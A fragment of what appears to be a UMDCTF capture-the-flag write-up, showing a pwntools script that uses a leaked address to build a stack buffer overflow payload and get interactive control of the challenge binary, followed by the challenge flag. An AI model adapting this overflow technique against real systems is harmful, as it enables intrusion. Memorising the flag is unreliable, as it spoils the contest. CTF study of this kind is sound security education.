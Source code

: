 ```python
    r = conn()

    r.recvuntil(b"cannon!\n")
    leak = int(r.recvline(), 16)
    log.info(f"Leaked address: {hex(leak)}")

    payload = b'A'*44
    payload += p64(leak + 20)
    payload += p64(0x402547)

    log.info(f"Sending payload: {payload}")
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

`UMDCTF{h0p3fu11y_th3_c++_pwn_w4snt_t00_h0rr1bl3}`
